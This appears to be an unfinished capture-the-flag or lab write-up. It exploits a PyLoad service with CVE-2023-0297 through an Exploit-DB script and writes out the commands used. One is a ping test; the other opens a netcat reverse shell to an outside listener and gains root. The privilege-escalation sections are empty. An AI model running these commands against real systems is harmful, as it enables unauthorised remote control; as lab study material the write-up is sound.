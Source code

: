 #InProgress 
```IP
192.168.192.26
```
# Enumeration

## HTTP 9666
PyLoad
```py
CVE-2023-0297
```


# Exploitation
We test unauthenticated remote code execution with the following exploit
https://www.exploit-db.com/exploits/51532
```
python cve-2023-0297.py -u http://192.168.192.26:9666 -c 'ping -c 5 192.168.45.204'
```
Indeed we are able to execute commands
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205092835.png?raw=true)
```
python cve-2023-0297.py -u http://192.168.192.26:9666 -c 'busybox nc  192.168.45.204 4444 -e bash'
```
And we get a root shell inmediately
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205093214.png?raw=true)

# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

# Lateral Movement
